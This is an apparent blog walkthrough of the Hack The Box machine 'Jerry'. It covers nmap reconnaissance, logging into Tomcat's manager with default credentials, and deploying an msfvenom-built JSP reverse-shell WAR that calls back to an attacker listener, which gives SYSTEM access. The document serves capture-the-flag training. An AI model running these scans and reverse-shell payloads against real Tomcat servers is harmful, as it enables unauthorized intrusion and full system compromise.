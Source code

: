 ```yaml
---
title: Jerry
published: true
layout: post
---
```


<br />

---------------
Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/SxrTIBxgnwE?si=D6W_zYFHUTDfnarv" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.95 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn
sudo nmap -sU 10.10.10.95 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn
```

![](/assets/Jerry/1.png)
<br />
<br />
<br />

The UDP scan didn't return anything.

<br />

There is **1 open port**:
+ **8080/tcp**

<br />

Let's check which **services** are running in this port:

```bash
sudo nmap -sS 10.10.10.95 -p 8080 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Jerry/2.png)
<br />
<br />
<br />

We can see that the service corresponds to:
+ **8080/tcp Apache Tomcat/Coyote JSP engine 1.1**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.95 -p 8080 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

![](/assets/Jerry/3.png)
<br />
<br />
<br />

This last scan returned a lot of information, but there is a specific critical piece of information, we found credentials ***tomcat:s3cret***.

<br />

------

<br />
### Foothold

The foothold in this machine is very easy now that we have obtained **credentials**.

<br />

We can go to the main web page and click on the ***Server Status* button**:
<br />

![](/assets/Jerry/4.png)
<br />
<br />
<br />

Now we will be prompted for credentials, we will use the ones we retrieved earlier:
<br />

![](/assets/Jerry/5.png)
<br />
<br />
<br />

Now we must go to ***List Applications***:
<br />
![](/assets/Jerry/6.png)
<br />
<br />
<br />

Here we will be able to **upload WAR files**, knowing that Tomcat is using a JSP engine, we can upload a **JSP reverse shell** and set up a listener:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.7 LPORT=4444 --platform windows -f war -o revshell.war
msfconsole -x "use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST 10.10.16.7; set LPORT 4444; run"
```

![](/assets/Jerry/7.png)
<br />
<br />
<br />

After this we will have a **new site available */revshell***, we can click on it to receive our reverse shell:
<br />
![](/assets/Jerry/8.png)
<br />
![](/assets/Jerry/9.png)
<br />
<br />
<br />

We have obtained RCE as **NT AUTHORITY\SYSTEM**, so we can print both flags:
```bash
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```

![](/assets/Jerry/10.png)
<br />
<br />
<br />
